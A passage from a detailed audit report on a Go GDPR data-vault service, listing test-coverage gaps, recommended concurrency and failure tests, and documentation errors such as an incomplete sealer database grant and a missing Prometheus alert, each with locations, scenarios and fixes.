6. The caller retries. `personForClientCID` (`contacts.go:437-465`) returns `ErrNotFound` for the tombstoned parent, so the retry aborts with 404 before the children loop — and `erasePerson(P)` also deleted P's `person_links`, so the link that named C is gone.
7. C is never erased, and nothing records that a cascade was attempted and half-completed: the parent's audit row says the parent was erased; nothing says C was supposed to be.

**Impact.** A cascade erasure can be permanently half-applied with a 5xx presented to the operator, and the orphaned child is unreachable through this API. The documented "cascade only on explicit `cascade:[...]`" contract (`sub-accounts.md:46,70-72`) silently degrades to "cascade sometimes".

**Root cause.** The multi-transaction structure was never given a failure test; the existing fault-branch test deliberately breaks the pre-flight listing query, a path where nothing has committed yet.

**Fix.** (1) Make the failure informative and resumable: on a child failure return the parent's erasureID and the partial `linked` report alongside the error, and write an audit row (`dsr.erase.cascade_incomplete` with the failed child cid) in its own tx. (2) Make retry work: when `erasePerson(P)` returns the already-erased sentinel — or `personForClientCID` reports a tombstone — skip the parent and continue the children loop. Optionally record intended cascade children in a table so a sweep can finish them.

**Test required.** `TestCascadeErasePartialFailureIsReportedAndResumable`: build parent+child via `newFaultEnv`, break exactly the child's path (deny `oti` and seed an `oti` row for the child only, or rename a child-only table between the parent's commit and the child's erase with the held-transaction technique from `TestS4_TokenizeRacingErasureCannotLandToken`). Assert the parent is tombstoned, the error names the child, the returned erasureID is non-zero, an audit row records the incomplete cascade, and a second `EraseWithCascade` completes the child. Must fail on today's code.

### TESTS-7 - `TestSealDigestCoversExactlyTheSealedRows` does not reproduce the H11 race — it asserts the aftermath, so it passes with the single-statement seal reverted
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** TESTING
**Location:** `internal/audit/reads_test.go:476-509` - `TestSealDigestCoversExactlyTheSealedRows`; code under test `internal/audit/reads.go:191-250` - `closeOneHour`, the single `UPDATE ... RETURNING` at `:238-239`

**Problem.** The test's own comment states the fix it guards: "the old two-statement close let a concurrent upsert slip between the digest SELECT and the sealing UPDATE, permanently breaking verification. The seal is now one `UPDATE ... RETURNING`." What it does: closes one hour normally, verifies clean, then calls `insertSealedRow` to hand-insert a row that is `sealed_at = now()` but was never in the digest (trigger bypassed), and asserts `VerifyReadBuckets` reports "do not match". That proves the VERIFIER detects a digest/sealed-set mismatch. It says nothing about whether `closeOneHour` can create one. No concurrent `ReadEvent` upsert runs during a close anywhere in the file.

**Why it matters.** H11 is a permanent audit-verification poison: the bucket table is append-only, so a sealed-but-undigested row can never be repaired.

**Failure / attack scenario.**
1. Revert `closeOneHour` to: (a) SELECT the open rows of the hour, (b) compute `hourDigest`, (c) `UPDATE ... SET sealed_at = now() WHERE bucket_start=$1 AND sealed_at IS NULL`, (d) `AppendTx` the digest.
2. Run the whole `internal/audit` suite: green. The test never triggers (a)->(c) concurrency.
3. In production, a `ReadEvent` upsert for that hour commits between (a) and (c). Step (c) seals it too. The digest written in (d) does not cover it.
4. `VerifyReadBuckets` reports the hour as tampered — permanently.

**Impact.** The H11 fix has a regression test that cannot regress. Reintroducing the two-statement close — natural during a refactor, since it reads more clearly — silently reopens the window, and the audit chain's own verifier then accuses an honest system of tampering.

**Root cause.** The test asserts the detector rather than the producer. Reproducing the interleaving needs a held transaction; the project already owns the technique (`internal/service/valuetoken_test.go:812-890` parks a worker on a row lock via `pg_stat_activity`) but it was not applied here.

**Fix.** Drive the race deterministically: open a transaction, insert an open bucket row for the target hour, hold it uncommitted; start `closeOneHour` in a goroutine; wait until it is parked (or has committed its digest); commit the competing upsert; run `VerifyReadBuckets` and assert clean. With the single-statement `UPDATE ... RETURNING` the late row is either fully inside the sealed set and the digest, or fully outside both (stays open, shows as pending) — never split.

**Test required.** `TestCloseIsAtomicAgainstAConcurrentReadEvent` as described: must pass on `reads.go` as written and fail after reverting the seal to two statements.

### TESTS-8 - Three of the five NOT EXISTS guards protecting search-token retention are untested
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** TESTING
**Location:** `internal/service/gdpr.go:829-855` - the `person_tokens` DELETE inside `RunRetention` (guards for `cids`/`files`/`shared_records`/`person_links`/`value_tokens`); tests at `internal/service/direct_test.go:139-165` (`TestRunRetentionWipes`), `:501-578` (`TestS6_RetentionKillsLookupAndHistory`), `:586-670` (`TestS6_BlobLessCIDWithLiveDataKeepsLookup`)

**Problem.** `RunRetention` deletes a person's search tokens only when five NOT EXISTS predicates hold: no live blob, no un-GC'd unexpired file, no unrevoked unexpired `shared_record`, no `person_link` on either side, no live `value_token`. That is the implementation of the documented guarantee (`docs/API.md:250-256`) that search tokens go "only once NOTHING live remains anywhere". Every behavioural `RunRetention` caller exercises at most two of the five: the `cids ... pii_encrypted IS NOT NULL` guard (`direct_test.go:501`, a second scope's live blob keeps tokens) and the `files ... gc_at IS NULL` guard (`:586`, a live file on a blob-less CID keeps tokens); `gdpr_e2e_test.go:325` covers the last-blob-wiped 404 case. No test creates a standing `shared_record`, a `person_link`, or a live `value_token` bound to a non-wiped cid and then sweeps. The value token at `direct_test.go:618` is bound to the WIPED cid and is removed by the preceding `DELETE FROM value_tokens WHERE cid = ANY($1)`, so it does not exercise the guard. No `RunRetention` test file constructs `*service.Shares` or `*service.Links`.

**Why it matters.** `person_tokens` are keyed HMACs. Once deleted they can only be re-minted by re-registering the identifier, so a wrong deletion permanently breaks dedup and lookup for a person whose data is still live somewhere. Retention is also the one sweep with no advisory lock, so it runs on every replica concurrently.

**Failure / attack scenario.**
1. Delete the `AND NOT EXISTS (SELECT 1 FROM shared_records sr JOIN cids c4 ...)` clause from `gdpr.go:844-847`.
2. Run the entire suite: green. Deleting a clause only makes the DELETE fire more often, and no surviving assertion notices.
3. In production, scope A's contact ages out under a 30-day TTL while scope B holds a standing 90-day share of that person's IBAN. The sweep deletes the person's `person_tokens`.
4. Every `/v1/lookup` for that person now 404s in EVERY scope, including scope B, which still legitimately holds and serves the data through the share. The person becomes unfindable while their data is still being disclosed.
5. The same applies to the `person_links` clause (a guardian relationship silently loses lookup) and the `value_tokens` clause.

**Impact.** Three fifths of a GDPR storage-limitation guarantee are unprotected, and the failure is silent and irreversible.

**Root cause.** The S6 fix landed with tests for the two guards the original finding named; the three added defensively at the same time were never given cases.

**Fix.** One table-driven test with a subtest per guard: for each of {standing share, person link, live value token}, build a person whose only surviving datum is that object, age out every blob, run `RunRetention`, assert the blob was wiped and `Lookup` still resolves. Then remove/expire/revoke the object, sweep again, assert `Lookup` now misses — which also pins the expiry semantics (an expired share must NOT keep tokens alive).

**Test required.** `TestRetentionKeepsSearchTokensWhileAnyDatumLives` with subtests share/link/value_token. Deleting any one of the three NOT EXISTS clauses must fail exactly the corresponding subtest.

### LOW / INFORMATIONAL testing findings

| ID | Severity | Title | Location | Fix |
|---|---|---|---|---|
| TESTS-9 | LOW (PLAUSIBLE) | Fault-injection suite asserts only that an error is returned; post-conditions beyond the tombstone are unchecked | `internal/service/fault_test.go:129-159`, `:161-172`, `:212-226`; partially refuted by `select_security_test.go:448-471` (`TestEraseDeepBranchFailures`, which does assert no tombstone) | Snapshot `pii_encrypted IS NOT NULL`, `count(person_tokens/consents/shared_records/erasure_events)` and `erased_at` before each fault-injected `Erase`/`SetConsent`/`Register`/`Tokenize`/`Upload` and assert byte-identical afterwards, read through the admin pool |
| TESTS-10 | LOW | `TestSyncStartupDrainsAsyncBacklog` uses `context.Background()`, leaking the unsealed-gauge (30s) and bucket-closer (60s) tickers against a dropped database for the rest of the package run | `internal/api/sealing_test.go:28-66` (`ctx := context.Background()` at `:30`, `startAuditSealing(ctx)` at `:49`); goroutines `internal/api/server.go:490,492`; DB dropped by `internal/testutil/db.go:58-66` | `ctx, cancel := context.WithCancel(...)`; add `goleak.VerifyTestMain` to `internal/api`; give `Server` a `WaitGroup` covering delivery/sealer/gauge/closer and have `shutdown` wait on it |
| TESTS-11 | LOW | CI matrix runs 3 of 4 legs and never the default sealing + chained reads corner; coverage leg has no `-race`, `-count=1`, `-shuffle` or `-timeout` | `.github/workflows/ci.yml:51-52,69,70-76`; defaults `internal/config/config.go:234,292` | Add the `(async, chained)` leg; add `-shuffle=on` and `-timeout=20m` to the race leg; `-count=1` on coverage; `-covermode=atomic` |
| TESTS-12 | LOW | No test runs two processes (or two service graphs) against one database, so `KeyRing`'s 30s TTL cache, `CachingKeystore`, `uploadSem`, `enumWarned` and the in-memory limiter are untested under the documented multi-replica deployment | `internal/testutil/db.go:18-68`; state at `internal/service/keyring.go:20-30,85`, `internal/crypto/keystore.go:302-305`, `internal/service/files.go:66-89`, `internal/api/server.go:48`, `internal/ratelimit/ratelimit.go:29-34` | Two-instance fixture: two complete service graphs (two KeyRings, two CachingKeystores, two Servers, two Limiters) over one `*store.Store`; pin rotation-visibility within the TTL, per-replica rate-limit multiplication, and the async/sync mode-switch hazard |
| TESTS-13 | LOW | Erasure-completeness sweep discovers tables only by `person_id`/`cid` column names or FKs, so a derived-token table is invisible; `portal_email_throttle` (keyed HMAC of the address, migrations 0014/0016) is a live counterexample with no written decision | `internal/service/erasure_sweep_test.go:203-231`; `internal/service/portal.go:165-178` writes it; `PrunePortal` (`portal.go:670`) prunes rows older than 1 day | Enumerate ALL base tables from `information_schema` and require every one in the decision map, adding a `notPersonal` category with a written reason; add `portal_email_throttle` as KEPT with its predicate |
| TESTS-14 | LOW | No test covers a crash between the storage PUT and the file row's commit; `RunFileGC` draws victims only from `files` rows, so such an object is unreachable by every sweep | `internal/service/files.go:236-262` (Put before Begin, defer reap at `:248-258`), `:492-530` (`RunFileGC`, `SELECT ... FROM files WHERE gc_at IS NOT NULL` at `:498`); existing tests `files_test.go` `TestH9_OrphanReapedWhenInsertFails`, `:741-779` | Intent-first: INSERT the `files` row with `gc_at = now() + interval '1 hour'` BEFORE the PUT and clear `gc_at` on commit, so existing GC reclaims crashed uploads; or add a prefix-based orphan sweep to `sunder retention run` |
| TESTS-15 | LOW | `TestS4_TokenizeRacingErasureCannotLandToken` hand-rolls `erasePerson`'s five statements instead of calling it, so deleting the `persons ... FOR UPDATE` guard at `gdpr.go:467-469` cannot fail the test that exists to pin it; the `pg_stat_activity` barrier matches the literal `%FOR UPDATE OF p%`, which also matches `files.go:278` | `internal/service/valuetoken_test.go:812-890`; pinned code `internal/service/gdpr.go:465-478`, `internal/service/valuetoken.go:387` | Drive the real `Erase` in a goroutine (or invert: park the erasure and assert it blocks on the persons row via `pg_locks`); replace the barrier predicate with a stable marker comment such as `/*sunder:tokenize-lock*/` |
| TESTS-16 | LOW | `TestRetirePurgesTokenRows` discards the cid returned by the post-retire re-registration and never counts `persons`, so the person-forking consequence of `Retire` is neither asserted nor documented | `internal/api/multivalue_e2e_test.go:119-156`; dedup path `internal/service/contacts.go:278-330`; `Retire` deletes the only email token at `internal/service/keyring.go:212-217`; the 201 is unconditional (`internal/api/contacts.go:66`) | Capture the original cid, assert explicitly on `newCID == cid` or `!=` plus `SELECT count(*) FROM persons` before/after; consider making `Retire` re-mint identifier tokens under the newest ACTIVE version in the same transaction, removing the fork and the 404 |

### Highest-value missing tests

Ordered by the severity of what they would have caught, not by ease.

1. **`TestErasureEventStrandedInSendingIsRequeued`** — covers TESTS-3, CONCURRENCY-CORE-1, DB-TXN-2, GDPR-ERASURE-3, QUEUE-WORKER-1, OPS-CLI-CONFIG-2, DOCS-3. *Scenario: crash between steps.* Enqueue an `erasure_events` row, run `DeliverPending` with a webhook that blocks, cancel the worker context after the claim transaction has committed `status='SENDING'` (`gdpr.go:666-673`) but before `terminal()` runs. Assert the row is still `SENDING`, then run the reaper (`sunder retention run` / `PrunePortal`'s equivalent) and assert the row returns to `PENDING` and is redelivered. Today no reaper exists and no `claimed_at` column exists, so the test cannot even be written without the fix — which is the point.
2. **`TestConcurrentRegisterOfSameEmailMintsOnePerson`** — covers DB-TXN-1 / TOKENS-LOOKUP-1. *Scenario: concurrent same-resource.* N=16 goroutines released by a `close(start)` barrier, all calling `Contacts.Register` with the same e-mail through separate connections. Assert exactly one `persons` row, exactly one `person_tokens` row of kind `email`, and that all N calls returned the same cid. Must fail on today's `ON CONFLICT DO NOTHING` (`contacts.go:319-324`) because the swallowed 23505 makes the retry loop at `:237-248` unreachable.
3. **`TestRekeyCannotResurrectAnErasedPerson`** — covers GDPR-ERASURE-1, GDPR-ERASURE-2, DB-TXN-7, TOKENS-LOOKUP-2. *Scenario: concurrent same-resource with a held transaction.* Park `rekeyPerson` after its blob read (`rekey.go:108-110`) using the `pg_stat_activity` technique, run a real `Erase` to completion in another transaction, release the sweep. Assert `cids.pii_encrypted IS NULL`, zero `person_tokens` rows for that person, and that `Lookup` by the original e-mail 404s. Today the `COALESCE` staleness guard at `:174-177` re-writes the blob and the `insert` closure at `:196-202` re-mints the tokens.
4. **`TestUnlockIsSingleUseUnderConcurrency`** — covers TESTS-4. *Scenario: duplicate request.* N=16 barrier-released `Unlock.Consume` calls on one token: exactly one nil, N-1 `ErrUnlockRequired`, exactly one `admin.unlock.use` audit row. Plus the HTTP twin — N concurrent `POST /v1/tokens/bulk/read` with the same `X-Sunder-Unlock`, exactly one 200.
5. **`TestFileKeystoreRacersAgreeOnKeyBytes`** — covers TESTS-5, CONCURRENCY-CORE-6, CRYPTO-6. *Scenario: multi-replica (separate `FileKeystore` instances on a shared directory).* 16 goroutines each `Ensure` then `Key`; require all 16 byte-identical, exactly one key file, no residual `.tmp*`/`.lock`. Second case for the stale-lock reclaim: pre-plant a >30s-old lock plus a valid key, run 8 concurrent `Ensure`s, assert the planted bytes survive.
6. **`TestCloseIsAtomicAgainstAConcurrentReadEvent`** — covers TESTS-7 (and guards AUDIT-CHAIN-2/5). *Scenario: concurrent same-resource across a commit boundary.* Hold an uncommitted open bucket row for the hour being closed, start `closeOneHour`, commit the competitor, then `VerifyReadBuckets` must be clean. Must fail if the seal is reverted to SELECT-then-UPDATE.
7. **`TestCascadeErasePartialFailureIsReportedAndResumable`** — covers TESTS-6, GDPR-ERASURE-4, DOCS-10. *Scenario: crash between steps in a multi-transaction operation.* Fail the child's own erase transaction after the parent has committed; assert the parent is tombstoned, the error names the child, the returned erasureID is non-zero, an audit row records the incomplete cascade, and re-issuing the call completes the child rather than 404ing on the tombstoned parent.
8. **`TestRetentionKeepsSearchTokensWhileAnyDatumLives`** — covers TESTS-8, GDPR-ERASURE-7. *Scenario: guard-by-guard.* Subtests share / link / value_token as described above, plus a second sweep after the object is revoked or expires — which also pins that GDPR-ERASURE-7's single-shot behaviour is a deliberate decision rather than an accident.
9. **`TestTwoReplicasOverOneDatabase`** (fixture) then three cases — covers TESTS-12, CONCURRENCY-CORE-4, AUTHZ-3, DOCS-12, AUDIT-CHAIN-7. *Scenario: multi-replica.* (a) rotate/retire on graph A, assert graph B still serves the retired version until `keyRingTTL` elapses and converges after; (b) assert the in-memory limiter gives N x the configured budget without Redis and does not with a shared `RedisLimiter` (`SUNDER_TEST_REDIS_ADDR` already exists in CI); (c) the async→sync rolling-restart hazard: one graph in sync mode draining while the other still inserts unsealed rows.
10. **`TestRunStopsBackgroundWorkersOnShutdown`** — covers QUEUE-WORKER-3, CONCURRENCY-CORE-5, TESTS-10. *Scenario: shutdown during processing.* Start `Run()`, queue an erasure event against a webhook that blocks for 3s, cancel the context, assert `Run` returns, the delivery worker finished or requeued its claim, no goroutine survives (goleak), and the shared `errCh` sender is not left blocked.
11. **`TestOrphanObjectFromACrashedUploadIsReclaimed`** — covers TESTS-14, FILES-STORAGE-1, FILES-STORAGE-3. *Scenario: crash between an external side effect and its commit.* Driver stub whose `Put` succeeds and then simulates process death before `Begin`; assert a later `RunFileGC` removes the object. With the intent-first fix the assertion becomes: the `files` row exists with `gc_at` set immediately after the PUT and before commit.
12. **`TestFailedErasureLeavesEverythingIntact`** — covers TESTS-9. *Scenario: fault injection with post-conditions.* Snapshot six counters, run `Erase` under a denied `erasure_events` role, assert non-nil error AND every counter unchanged. Must fail if `erasePerson` is ever split across two transactions.

### Race safety under `go test -race ./...`

The suite is race-safe: the CI race leg (`.github/workflows/ci.yml:69`) runs `go test -race ./...` and no finding in this review is a Go data race. The concurrency defects here are all logical, and `-race` is structurally incapable of seeing any of them:

- **Cross-process / cross-replica state.** `KeyRing`'s 30s TTL cache and process-local `Invalidate` (CONCURRENCY-CORE-4, DOCS-12), `CachingKeystore`'s never-invalidated map, `Files.uploadSem`, `enumWarned`, and the in-memory `ratelimit.Limiter` (TESTS-12, AUTHZ-3) are each correctly synchronised inside one process. The defect is that one process's correctness is not the deployment's correctness. `-race` sees one process.
- **Filesystem TOCTOU.** `FileKeystore`'s O_EXCL election and 30s stale-lock reclaim (TESTS-5, CONCURRENCY-CORE-6, CRYPTO-6) race through the filesystem and a shared-volume mtime, not through memory.
- **Database check-then-act.** The tombstone read on the pool before `BEGIN` (DB-TXN-4, GDPR-ERASURE-5/6), `Register`'s swallowed unique violation (DB-TXN-1), `rekeyPerson`'s `COALESCE` guard (GDPR-ERASURE-1, TOKENS-LOOKUP-2), `OTI.VerifyFull`'s post-commit unlocked read-modify-write (DB-TXN-5, AUTHZ-4), and the outbox status UPDATEs with no CAS (QUEUE-WORKER-4) are all interleavings of committed transactions. Nothing is shared in memory.
- **Lock-order inversion.** The `erasePerson` vs `OTI.VerifyFull` deadlock (DB-TXN-3) is a Postgres lock-graph property; `-race` models no database.
- **Crash / cancellation windows.** Stranded `SENDING` rows (TESTS-3 and its siblings), the PUT-before-commit orphan (TESTS-14), and the ambiguous-commit reap (FILES-STORAGE-1) require a process to stop existing. A running race detector observes nothing.
- **Vacuous assertions.** TESTS-1, TESTS-2, TESTS-4, TESTS-7 are tests that pass for the wrong reason; a detector cannot flag a missing assertion.

Two supplements would give real coverage where `-race` cannot: `go.uber.org/goleak` in `internal/api` (catches TESTS-10 and would have caught CONCURRENCY-CORE-5), and the two-service-graph fixture from item 9 above, which is the only practical way to exercise per-replica state without launching two binaries. For genuine cross-process coverage, extend the e2e-demo workflow to boot two `sunder serve` containers behind one Postgres and run the quickstart plus `sunder verify-audit`.

## 9. Documentation Gaps

One HIGH documentation finding, **DOCS-3** (erasure webhook events stranded in `SENDING` are never requeued and never audited, while `erasure-webhooks.md:7,57,91` and `docs/API.md:231-234` promise retry-until-`FAILED`), is evidenced with the queue-worker cluster it belongs to and is not repeated here.

### TOKENS-LOOKUP-7 - Value tokens are invisible to the data subject: Access/Export omit `value_tokens` entirely, and every `tokens.*` audit entry is written without a CID even when the token is cid-bound
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION (functional gap in the DSR read paths)
**Location:** `internal/service/gdpr.go:230-300` - `accessPerson`; `gdpr.go:316-355` - `Export`; audit entries at `internal/service/valuetoken.go:96-99, 142-147, 157-160, 194-197, 347-351, 616-621`

**Problem.** Migration 0032 bound value tokens to a subject (`value_tokens.cid`) so erasure can reach them, and `erasePerson` does delete them (`gdpr.go:521-524`). The two subject-facing read paths were not extended. `accessPerson` — the Article 15 answer, shared by the officer's Access and the portal — queries `cids` (`:231-233`), `consentsFor` (`:252`), `audit WHERE cid = ANY($1)` (`:261-263`) and `audit_read_buckets WHERE cid = ANY($1)` (`:283-286`); it never queries `value_tokens`. `Export` reads the blob and consents only. The audit trail cannot substitute: `tokens.create` (`valuetoken.go:96-99`) sets only `Detail{type,unique}` even though `in.CID` is in hand and is written to the row at `:476-479`; `tokens.read` matched/miss (`:142-147`, `:156-160`) and `tokens.delete` (`:194-197`) carry no `Entry.CID`, and `Delete`'s RETURNING (`:181-183`) returns only `created_by`. Under the default bucketed posture `audit.ReadEvent` upserts on `(client_id, user_id, cid, action, bucket_start)` with `e.CID` passed straight through (`audit/reads.go:93-99`), and `0022_audit_read_buckets.sql:23,29` makes `cid` NOT NULL DEFAULT `''` and part of the PK — so every `tokens.read` in an hour collapses into ONE row with `cid = ''`, which `WHERE cid = ANY(cidList)` can never match.

**Why it matters.** Value tokens hold exactly what customers tokenize because it is sensitive: IBANs, PANs, national identifiers.

**Failure / attack scenario.**
1. A scope tokenizes a person's national ID with `POST /v1/tokens {value:"...", unique:true, cid:"CID-X"}`. The row lands with `cid='CID-X'`.
2. Over the next month operators detokenize it 40 times.
3. The person files a subject access request. The officer calls `GET /v1/dsr/access?cid=CID-X`.
4. The `tokens.create` row has `cid` NULL, so it is not in the chained trail. The 40 `tokens.read` events aggregate into a bucket with `cid=''`, so they are not in the bucket trail. The token's existence is not in `scopes`, because the value lives in `value_tokens`, not `cids.pii_encrypted`.
5. The subject is told, in effect, that their national ID is not held and that nobody read it. Both statements are false.
6. `GET /v1/dsr/export` produces a portability file with the same omission.

**Impact.** Article 15(1) and 15(1)(c)/(d) are answered incorrectly for the most sensitive category the product stores; Article 20 portability is incomplete. Operationally, an insider bulk-detokenizing a scope leaves a per-client hourly count but no record of WHICH subjects were read, so a breach investigation cannot enumerate affected data subjects. This is a completeness/accountability defect, not a confidentiality one — erasure does reach the rows and no values are disclosed.

**Root cause.** S4 (migration 0032) added the subject link for the erasure path only; the DSR read paths and `Entry.CID` on the value-token surface were never revisited.

**Fix.**
1. Populate `Entry.CID` on the value-token audit paths: pass `in.CID` through `Tokenize`/`tokenizeInTx` into the `tokens.create` entry; have `Detokenize` and `Delete` return the row's `cid` (`valuetoken.go:123-128` and `:181-183` can both do so) and set `Entry.CID`. This alone makes bucketed reads land under the subject's cid and become visible to `accessPerson`'s existing bucket query.
2. Extend `accessPerson` with a metadata-only inventory: `SELECT token, token_type, scope, created_at, created_by, expires_final, last_used FROM value_tokens WHERE cid = ANY($1)`, returned as a `value_tokens` section of `ScopeData`. Do not decrypt — Article 15 requires disclosing that the data is held and who touched it; the value reaches the subject through the controller's own channel.
3. Add the same section to `Export` for the caller's scope.
4. Audit the new read itself.

**Test required.** Register a contact (CID-X), tokenize with `cid=CID-X`, detokenize three times, call `GDPR.Access` for CID-X. Assert the result contains a `value_tokens` entry for the token and that the audit trail contains a `tokens.read` entry attributed to CID-X with count 3. Both fail today.

### DOCS-1 - Documented sealer DB-role grant (3 columns) is incomplete — following it silently stops the audit chain from sealing
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs/CONFIG.md:75`; `docs-site/docs/admin/audit-operations.md:53`; `docs-site/docs/install/configuration.md:19,90`; `docs/THREAT-MODEL.md:143-147`; vs `internal/audit/audit.go:338` (`sealBatch`), `internal/audit/reads.go:238,271` (`closeOneHour`)

**Problem.** Four documents instruct the operator to give the external `sunder sealer` process "a DB role that may UPDATE only `prev_hash`/`hash`/`chain_seq` on `audit`". Since migration 0033 the sealing statement is `UPDATE audit SET prev_hash=$1, hash=$2, chain_seq=$3, hash_v=$4 WHERE seq=$5` (`audit.go:338`) — four columns. The same sealer process also runs `CloseReadBuckets` (`cmd/sunder/main.go:1197,1228`), which issues `UPDATE audit_read_buckets SET sealed_at = now() ... RETURNING` (`reads.go:238`) and an `INSERT INTO audit` via `AppendTx` for the hourly digest (`reads.go:271`). Neither `hash_v`, nor UPDATE on `audit_read_buckets`, nor INSERT on `audit` appears in any documented grant.

**Why it matters.** The grant is the privilege-separation posture `THREAT-MODEL.md:143-147` calls "STRONGER than the pre-P4.1 single-role setup".

**Failure / attack scenario.**
1. Operator follows `docs/CONFIG.md:75` and creates `sunder_sealer` with `GRANT UPDATE (prev_hash, hash, chain_seq) ON audit`, plus `SUNDER_AUDIT_SEAL_EXTERNAL=true` on the API.
2. `sunder sealer` starts and prints its banner (no DB write yet).
3. Every 200ms seal cycle the batched UPDATE fails with `ERROR: permission denied for column hash_v`; `sealBatch` returns the error and commits nothing. `cmd/sunder/main.go:1214,1228` prints `sealer: <err>` to stderr each cycle, so the failure is loud on stderr from the first cycle — but nothing else changes.
4. The API keeps INSERTing unsealed rows fail-closed as designed; nothing crashes.
5. The chain stops growing indefinitely. `sunder verify-audit` reports `chain intact` with a rising pending count — `Verify` treats unsealed rows as pending, never as a break (`audit.go:373`).
6. Under the default `SUNDER_AUDIT_READS=bucketed` the hourly closer also fails, so no read hour is ever sealed or digested.

**Impact.** The exact configuration the docs recommend disables sealing. Every audited operation stays outside the hash chain, the deletion window the threat model bounds at ~2s becomes unbounded, and anchoring stamps a head that never advances — while the tool operators are told to trust reports success.

**Root cause.** Migration 0033 added `hash_v` to the sealing UPDATE and P4.2 added the read-bucket closer to the sealer process; the four documents were never updated.

**Fix.** Correct all four documents to literal copy-pastable SQL:
```sql
GRANT SELECT, UPDATE (prev_hash, hash, chain_seq, hash_v) ON audit TO sunder_sealer;
GRANT INSERT ON audit TO sunder_sealer;
GRANT SELECT, UPDATE (sealed_at) ON audit_read_buckets TO sunder_sealer;
GRANT USAGE, SELECT ON SEQUENCE audit_seq_seq TO sunder_sealer;
```
Note that the sealer needs INSERT on `audit`, so the "sealer cannot forge rows" framing needs qualifying. Separately, surface consecutive seal failures on a counter that `ops/prometheus-alerts.yaml` alerts on (see DOCS-2, OPS-CLI-CONFIG-8).

**Test required.** A permissions test that creates a role with exactly the documented column grants, points a sealer at it, appends rows, runs `SealOnce` + `CloseReadBuckets`, and asserts both succeed and `UnsealedCount` drops to zero. Today it fails with `permission denied for column hash_v`.

### DOCS-2 - THREAT-MODEL names `sunder_audit_unsealed_rows` as "the alarm" for the async sealing window, but no shipped alert rule or dashboard panel covers it
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs/THREAT-MODEL.md:150-152`; `docs/CONFIG.md:105-107`; vs `ops/prometheus-alerts.yaml` (SunderDown, SunderHighErrorRate, SunderLookupLatencyHigh, SunderOTIVerifyLatencyHigh, SunderEnumerationSuspected, SunderRateLimitedSpike, SunderAuthFailureSpike); `ops/grafana-dashboard.json`; `docs-site/docs/admin/monitoring.md:52-79`

**Problem.** `SUNDER_AUDIT_SEALING=async` is the default, and `THREAT-MODEL.md:150` ends its list of mitigations for the resulting deletion window with: "The `sunder_audit_unsealed_rows` gauge is the alarm: a stalled sealer is an incident, because the window grows without bound while it is down." The gauge is exported (`internal/api/server.go:488,525,609`), but `ops/prometheus-alerts.yaml` — the file `monitoring.md:43-49` tells operators to load wholesale — contains no rule referencing it, and `grep -c unsealed ops/grafana-dashboard.json` returns 0. `monitoring.md:60-80` tables all seven shipped alerts and explicitly flags exactly one uncovered panel ("Consent / DSR / OTI denials ... nothing pages on it today"), which reads as an exhaustive gap disclosure while omitting this one.

**Why it matters.** This is the single stated mitigation for the default mode's tamper window. Shares a root cause with **OPS-CLI-CONFIG-8** (a stalled sealer is undetectable in the shipped monitoring; the sealer Deployment also has no readiness/liveness probe) — one fix closes both.

**Failure / attack scenario.**
1. Operator deploys with defaults (async sealing) and follows `monitoring.md` steps 1-4: scrape `/metrics`, `promtool check rules ops/prometheus-alerts.yaml`, load rules, import the dashboard.
2. They read `THREAT-MODEL.md`, see the window is bounded by "the alarm", and accept async.
3. The sealer stalls — a DB role permission problem (DOCS-1), pool exhaustion, or `SUNDER_AUDIT_SEAL_EXTERNAL=true` with the sealer pod never scheduled.
4. `sunder_audit_unsealed_rows` climbs from 0 to millions. Nothing fires: no rule matches the series, no panel shows it, `verify-audit` still prints `chain intact` and exits 0, and the 5xx rate stays flat because appends still succeed.
5. The condition is invisible until someone runs `sunder verify-audit` by hand and reads the pending count.

**Impact.** The window `THREAT-MODEL.md:129` bounds at "roughly 8,000 rows" is unbounded in practice, and unsealed rows can be deleted without breaking any hash. The signal exists on `/metrics`; what is missing is the shipped rule.

**Root cause.** The P4.1 threat-model text and the shipped ops bundle were written independently; `monitoring.md` documents the rules that exist rather than reconciling against the mitigations other documents promise.

**Fix.** Add to `ops/prometheus-alerts.yaml`:
```yaml
- alert: SunderSealerStalled
  expr: sunder_audit_unsealed_rows > 50000
  for: 10m
- alert: SunderSealerBacklogGrowing
  expr: deriv(sunder_audit_unsealed_rows[15m]) > 0
  for: 30m
```
plus a Grafana panel, a row in `monitoring.md`'s alarm table, and readiness/liveness probes on the sealer Deployment. Do the same reconciliation for the erasure queue (DOCS-3).

**Test required.** A CI check that greps every metric name the docs describe as an alarm and asserts a matching rule exists in `ops/prometheus-alerts.yaml` — the same class of check `internal/api/openapi_coverage_test.go` performs for routes.

### DOCS-4 - "Sunder itself holds no state - point every replica at the same PostgreSQL" is false with `SUNDER_FILES_STORAGE=local`, the value the shipped compose file uses
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DOCUMENTATION
**Location:** `docs-site/docs/admin/multi-replica.md:26-28`; `docs/THREAT-MODEL.md:17` row 9 ("Stateless service (scale by replicas)"); `docs-site/docs/install/postgres-sizing.md:5`; vs `internal/storage/local.go:136-151`, `internal/service/files.go:344-346`, `deploy/docker-compose.yml:49-50`

**Problem.** Three documents state Sunder is stateless and that scaling is "add replicas pointed at the same PostgreSQL". With `SUNDER_FILES_STORAGE=local` the F5 file vault writes ciphertext to a per-process directory (`SUNDER_FILES_DIR`, default `./filestore`), node-local state no other replica can read. The docs guard the analogous keystore hazard in two places (`docker-compose.md:97` "deliberately does not support multi-replica deployments"; `helm.md:113-116` "the chart deliberately refuses `keystore.type: file`") but say nothing equivalent for the file vault — `docs-site/docs/concepts/file-vault.md:30-57` presents `local` as a normal option with no replica caveat, and `deploy/docker-compose.yml:49-50` ships `SUNDER_FILES_STORAGE: local`.

**Why it matters.** The failure mode is a 2xx, not an error.

**Failure / attack scenario.**
1. Operator enables the file vault with `SUNDER_FILES_STORAGE=local` and runs `replicaCount: 3`, having read `multi-replica.md:26` that Sunder holds no state.
2. A client uploads `mandate.pdf`; the load balancer routes it to replica A, whose driver writes the object under A's `SUNDER_FILES_DIR` and commits the `files` row to the shared database.
